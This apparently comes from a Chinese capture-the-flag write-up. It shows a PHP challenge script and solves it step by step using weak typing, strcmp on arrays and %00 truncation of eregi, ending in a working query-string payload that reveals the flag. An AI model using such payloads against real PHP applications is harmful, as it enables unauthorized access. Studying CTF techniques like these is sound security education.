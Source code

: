 # Challenge
```php
<?php
show_source(__FILE__);
$v1=0;$v2=0;$v3=0;
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
   is_numeric(@$a["bar1"])?die("nope"):NULL;
   if(@$a["bar1"]){
	   ($a["bar1"]>2016)?$v1=1:NULL;
   }
   if(is_array(@$a["bar2"])){
	   if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	   $pos = array_search("nudt", $a["a2"]);
	   $pos===false?die("nope"):NULL;
	   foreach($a["bar2"] as $key=>$val){
		   $val==="nudt"?die("nope"):NULL;
	   }
	   $v2=1;
   }
}
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
?>
```

# Solution
## v1
```php
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    ....
}
```
传入的foo，经过一次json_decode，然后转换成array。然后判断 `$a["bar1"]` 是否满足 is_numeric，若满足则die掉。接下来又判断 `$a["bar1"]` 是否大于 2016 。

利用php弱类型特性，可以设置
```
$a["bar1"] = 2017a
```

这样is_numeric时会判断其为字符串而不是数字，而在与2016的比较中，会直接转换成2017，满足大于2016。这样 v1 就被设置为 1 了。

## v2
```php
if(is_array(@$a["bar2"])){
	if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
	$pos = array_search("nudt", $a["a2"]);
	$pos===false?die("nope"):NULL;
	foreach($a["bar2"] as $key=>$val){
		$val==="nudt"?die("nope"):NULL;
	}
	$v2=1;
}
```

接下来，要求`$a["bar2"]`是个数组，其中元素的个数为5个（count($a["bar2"])!==5），同时要求`$a["bar2"][0]`是数组。所以我们设置:
```
$a["bar2"] = [[],2,3,4,5]
```

对于 `$pos = array_search("nudt", $a["a2"]);`，它搜索字符串“nudt”在$a["a2"]中的位置。若没有找到，array_search返回false，会通过严格比较导致die掉。所以这里要设置：
```
$a["a2"] = “nudt”
```
注意这里因为用了`$pos===false?`的严格比较，所以0不`===`false。

之后就能设置 v2 = 1

结合$a是由json_decode得来，所以第一个payload为：
```
foo={"bar1":"2017a","bar2":[[],2,3,4,5],"a2":["nudt"]}
```

## v3
```php
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
	   eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	   strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

先会用strcmp进行比较，利用数组array和字符串进行strcmp比较会返回null，而且数组array也不会等于字符串，我们可以设置cat[1]为一个数组。

接下来用eregi对拼接后的字符串`$d.$c[0]`进行正则匹配，若匹配到则die掉。而下一步又要求拼接字符串`$c[0].$d`中要有字符串“htctf2016”。这里利用%00对eregi的截断功能，则在正则匹配eregi时在开头时就匹配结束掉。

`strpos(($c[0].$d), "htctf2016")`中，还要求“htctf2016”不能出现在开头。

所以设置：
```
$d = %00 即 dog=%00

$c[0]  = "ahtctf2016"
```

所以综上所述，构造最后的payload如下：
```
?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00
```


# Refference
+ [chybeta : php是最好的语言](https://chybeta.github.io/2017/08/18/XNUCA-2017-Web%E4%B8%93%E9%A2%98%E8%B5%9B%E5%89%8D%E6%8C%87%E5%AF%BC-php%E6%98%AF%E6%9C%80%E5%A5%BD%E7%9A%84%E8%AF%AD%E8%A8%80-writeup/)